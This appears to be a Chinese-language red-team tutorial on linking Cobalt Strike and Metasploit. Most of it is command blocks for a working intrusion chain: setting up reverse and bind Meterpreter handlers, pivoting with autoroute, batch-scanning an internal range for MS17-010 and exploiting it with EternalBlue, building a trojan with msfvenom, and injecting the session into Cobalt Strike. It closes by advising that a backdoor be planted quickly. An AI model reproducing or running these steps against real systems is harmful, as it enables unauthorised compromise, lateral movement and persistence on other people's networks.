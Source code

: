 ## **CS转MSF**
CS上线后可以探测永恒之蓝，但转到MSF更好探测和攻击利用。


CS创建一个监听器
```
类型选择Foreign HTTP
名字：msf
host：输入MSF的IP地址
端口：MSF监听的端口
```
MSF开启监听
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http   ##这里一定不要输入错误，你上面监听器是http，那么这里就是http
set lhost 0.0.0.0
set lport 3010                  ##端口根据你自己的修改
run
```
CS再输入命令spawn msf 即可。

此时在MSF会话中
```
查看角色
getuid

添加内网路由
run post/multi/manage/autoroute

查看内网路由 此时有192.168.3.0
run autoroute -p

会话后台
background

使用永恒之蓝检测模块 批量检测
use auxiliary/scanner/smb/smb_ms17_010
show options
set rhosts 192.168.3.21-32
set threads 5
run

此时检测到192.168.3.21:445存在漏洞
利用上线
use exploit/windows/smb/ms17_010_eternalblue
能出网，用反向上线(默认反向)
3.21机不能出网，用正向上线
set payload windows/x64/meterpreter/bind_tcp
show options
set rhosts 192.168.3.21
set lport 4444
run
最终通过跳板机连接 3.21内网机4444端口 上线。
```

^
## **MSF转CS**
MSF联动CS，主要是将MSF的会话转移到CS上。
利用MSF生成木马，让其上线然后在转交给CS。


这里生成一个木马，然后上传到目标主机上，主要要注意这个IP地址和端口别设置错了或者忘记了。
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXXX.XXX.XXXX.XX LPORT=4444 -f exe -o 123.exe
```
这里设置的监听，就是将上面的木马，再执行后能够建立会话。
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 3000
exploit
```

 CS设置监听

这里设置监听，由于是MSF主动去连接CS，所以这里设置反向连接即可。



MSF转移会话
到转移会话这里，主要就是将MSF刚刚木马上线的会话迁移到CS上。
```
use exploit/windows/local/payload_inject //使用该模块可以将 Metasploit 获取到的会话注入到CS中
set payload windows/meterpreter/reverse_http //和cs监听器保持一致
set prependmigrate true     #可以不设置，但是端口不要和CS冲突了。
set DisablePayloadHandler true  #可以不设置
set lhost XXXX.XXX.XXX.XX    //CS的IP
set lport XXX   //CS上的listen端口
set session 1   //要转发的session
run 
```
这里可以CS看到是成功上线了。
这里主要就是介绍如何迁移会话，迁移会话后尽量在条件允许的情况快，尽快建立起相应的后门，比如你MSF迁移到CS，迁移后尽快上传CS的木马，免得掉线或者不注意MSF被关闭了。


